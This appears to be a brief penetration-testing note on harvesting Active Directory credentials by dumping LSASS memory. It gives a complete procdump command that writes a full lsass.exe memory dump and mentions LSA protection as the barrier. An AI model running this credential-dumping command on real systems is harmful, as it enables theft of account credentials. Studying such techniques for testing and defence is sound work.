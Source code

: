 

For [[AD-Credential-Harvesting]] you can dump lssas for credentials. In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. 
```powershell
procdump.exe -accepteula -ma lsass.exe C:\Users\Administrator\Desktop\lsass_dump
```